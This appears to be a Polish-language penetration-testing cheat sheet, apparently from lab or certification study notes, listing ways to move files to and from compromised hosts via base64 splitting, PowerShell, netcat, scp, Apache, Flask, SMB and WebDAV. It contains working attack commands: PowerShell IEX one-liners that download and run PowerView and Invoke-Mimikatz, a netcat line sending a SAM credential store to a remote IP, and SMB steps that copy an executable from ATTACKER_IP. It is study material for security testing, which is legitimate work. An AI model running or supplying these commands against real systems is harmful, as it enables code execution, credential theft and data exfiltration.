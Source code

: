 # Content
1. [Podzial na fragmenty](#Podzial-na-fragmenty)
2. [Powershell](#Powershell)
3. [Przeslanie nc](#Przeslanie-nc)
4. [Przeslanie przez ssh scp](#Przeslanie-przez-ssh-scp)
5. [Apache](#Apache)
6. [Upload flask](#Upload-flask)
7. [Using SMB server](#SMB-server)
8. [WebDav](#webdav)

# Podzial na fragmenty
### Mozna przed podzieleniem zakodowac do base64
```console
base64 -w file.ext > file_to_split
```
### Dobry sposob
Podzielenie na ilosc partii
```console
split -n 20 file_to_split
```
Zlaczenie podzielonych kawalkow
```console
cat x* > scale_file
```
### Pierwotna wersja
![](PodzielenieNaMniejszeFragmenty.png)


# Powershell
### Dekodowanie base64 do binarki pliku powershell
```powershell
$contentString = Get-Content $filePath -Encoding UTF8
$binary = [Convert]::FromBase64String($contentString)
Set-Content -Path $newFileName -Value $binary -Encoding Byte
```
### Komendy pobierania pliku
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')
```
```powershell
iwr -uri http://ip/powerview.ps1 -OutFile pv.ps1
```

```powershell
$power = (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')

```


```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

# Przeslanie nc
### Nasluch
```console
nc -nlvp 9999 > dane
```
### Wyslanie
```console
nc -n <ip> 9999 < file
```
### Wyslanie pliku z windowsa
```console
Get-Content SAM.base | .\nc.exe 10.10.116.147 9001
```

# Przeslanie przez ssh scp
### Przeslanie
```console
scp file.ext kali@192.168.45.193:/tmp
```
### Pobranie pliku przez ssh
```console
scp kali@192.168.45.250:/home/kali/Desktop/ticket.doc ticket.doc
```

# Apache
Kopiujemy plik do /var/www/html
```console
systemctl start apache2
```
Pobieramy plik na innej maszynie
```console
wget http://naszeIP/zasob
```

# Upload flask
```console
git clone https://github.com/romeokienzler/flask-file-upload.git
```
```console
mv upload.py app.py
```
```console
flask run
```
Connect i browser **127.0.0.1:5000**

# SMB server
    Uruchamiamy server na kalim:
    sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
    
    Na windowsie 
    1) Podlaczamy zasow:
       1- net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
    2) Kopiujemy pliki
       1- copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
    3) Odlaczamy zasob
       1- net use \\ATTACKER_IP\share /del
    
    Tutaj takie cos bylo robione(Uprawnienia windows)



# webdav
```bash
sudo pip3 install wsgidav cheroot
```
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Polaczenie do zasobow z powershella
```powershell
dir \\192.168.49.128\DavWWWRoot
```
